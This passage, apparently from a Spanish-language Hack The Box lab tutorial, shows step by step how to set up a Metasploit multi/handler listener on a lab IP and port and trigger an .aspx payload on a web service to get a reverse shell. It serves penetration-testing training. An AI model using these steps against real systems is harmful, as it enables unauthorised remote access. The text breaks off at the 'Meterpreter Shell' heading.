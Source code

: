 ### MSF - Configurando Multi/Handler

```bash
sherlock28@htb[/htb]$ msfconsole -q 
```

```bash
msf6 > use multi/handler
msf6 exploit(multi/handler) > show options
```

```sql
Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

```bash
msf6 exploit(multi/handler) > set LHOST 10.10.14.5
```

```makefile
LHOST => 10.10.14.5
```

```bash
msf6 exploit(multi/handler) > set LPORT 1337
```

```makefile
LPORT => 1337
```

```bash
msf6 exploit(multi/handler) > run
```

```csharp
[*] Started reverse TCP handler on 10.10.14.5:1337 
```

## Ejecutando la Carga Útil

Ahora podemos activar la carga útil `.aspx` en el servicio web. Hacer esto no mostrará nada visualmente en la página, pero al volver a nuestro módulo multi/handler, deberíamos haber recibido una conexión. Debemos asegurarnos de que nuestro archivo `.aspx` no contenga HTML, por lo que solo veremos una página web en blanco. Sin embargo, la carga útil se ejecuta en segundo plano de todos modos.

### MSF - Meterpreter Shell

```
less
```
